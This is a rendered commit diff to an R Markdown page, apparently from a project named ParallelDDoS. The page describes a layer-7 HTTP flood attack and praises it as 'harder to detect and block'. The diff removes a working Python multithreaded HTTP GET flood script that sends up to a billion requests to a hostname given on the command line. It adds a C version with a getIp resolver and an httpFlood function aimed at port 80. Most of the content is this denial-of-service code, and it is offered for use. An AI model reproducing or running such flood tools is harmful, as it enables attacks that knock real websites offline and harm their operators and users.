

Before and after one commit to Alexander-Alvarado/ParallelDDoS, an R Markdown document (hosted_media/hosted_file.Rmd): the page in a window 1100 px wide, from 900 px down, and a second part further down, joined at a grey line. Rendered offline with R 4.5, knitr and Pandoc, with nearby package versions; menus at the side of the page are left out.

Commit message:
fixed hosted

````diff
--- a/hosted_media/hosted_file.Rmd
+++ b/hosted_media/hosted_file.Rmd
@@ -52,7 +52,7 @@ Benefits:
 - Less bandwidth than alternatives
 - Harder to detect and block
 
-Attack Type: POST
+Attack Type: GET
 Targets OSI layer #7
 
 ### Weaknesses
@@ -67,25 +67,23 @@ $$\downarrow Scroll \downarrow$$
 
 \break
 
-```python
-import socket
-import threading
-import random
-import string
-import sys
-import time
+```c
+#include <stdio.h>
+#include <stdlib.h>
+#include <string.h>
+//#include <mpi.h>
+#include <sys/socket.h>
+#include <sys/types.h>
+#include <netdb.h>
+#include <arpa/inet.h>
 
-hostName = ""
-ipAddr = ""
-portNum = 0
-packets = 0
+const char *getIp(const char *hostname, char *restrict ip)
+{
+	struct in_addr **addr_list;
+	struct hostent *host;
+	int i;
 
-#parsing inputs from command line
-#host name must be entered as url with nothing proceding the domain name
-#ex: google.com, reddit.com
-if len(sys.argv)==2:
-    hostName = str(sys.argv[1])
-    portNum = 80#default port for HTTP
-    packets = 1000000000#default number of requests sent to ip address
-else:
-    sys.exit(1)#no valid input
+	if ((host = gethostbyname(hostname)) == NULL) //return information about host
+	{
+		herror("gethostbyname");
+		exit(0);
@@ -92 +91,2 @@ else:
 
+	addr_list = (struct in_addr **)host->h_addr_list; //create address list from host info
@@ -97 +93,5 @@ byteHostName = ipAddr.encode('utf-8','ignore')#convert string > bytes
 
+	for (i = 0; addr_list[i] != NULL; i++)
+	{
+		strcpy(ip, inet_ntoa(*addr_list[i])); //choose ip from address list
+	}
@@ -104,6 +98,7 @@ def fake_url():
 
+	printf("IP address: %s\n", ip);
 
-def ddos():
-    byte_url = fake_url()
+	return ip;
+}
 
-    connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #https://docs.python.org/3/library/socket.html
+int httpFlood(const char *ip, int port)
@@ -113,17 +107,15 @@ def ddos():
-        connection.send(b'Get /%b HTTP/1.1\nHost: %b\n\n' % (byte_url,byteHostName))#socket.send can only accept bytes
-    except socket.error:#happens if a site goes down or ip is banned
-        print ("\n Unable to establish connection, site may be down or your ip has been banned.")
+	int socket_desc;
+	struct sockaddr_in server;
+	char *message;
 
-    finally:
-        connection.shutdown(socket.SHUT_RDWR)
-        connection.close()
+	socket_desc = socket(AF_INET, SOCK_STREAM, 0); //create socket
+	if (socket_desc == -1)						   //above function returns -1 on socket error
+	{
+		printf("Could not create socket\n");
+	}
 
-threads = []
-for i in range(packets):
-    thread1 = threading.Thread(target=ddos)
-    thread1.start()
-    threads.append(thread1)
-    time.sleep(0.01)
+	server.sin_addr.s_addr = inet_addr(ip); //setting ip address in struct
+	server.sin_family = AF_INET;			//setting connection type in struct
+	server.sin_port = htons(port);			//setting port number in struct
 
-for current_thread in threads:
-    current_thread.join()
+	if (connect(socket_desc, (struct sockaddr *)&server, sizeof(server)) < 0) //connect to ip address
@@ -130,3 +153,17 @@ for current_thread in threads:
+		port = 80;				   //atoi(argv[2]);  //port number can be retrieved from command line, for now it is default port 80
+	}
+	else
+	{
+		printf("Usage: ./filename {hostName}\n"); //incorrect number of arguments print out
+		exit(0);
+	}
+
+	getIp(hostname, ip); //get ip address from host name
+
+	httpFlood(ip, port); //flood ip address with HTTP GET requests
+
+	return 0;
+}
 ```
 
 ![](https://media.giphy.com/media/RyXVu4ZW454IM/giphy.gif)
````
Also changed, not shown: hosted_media/hosted_file.Rmd (47 more changed lines).
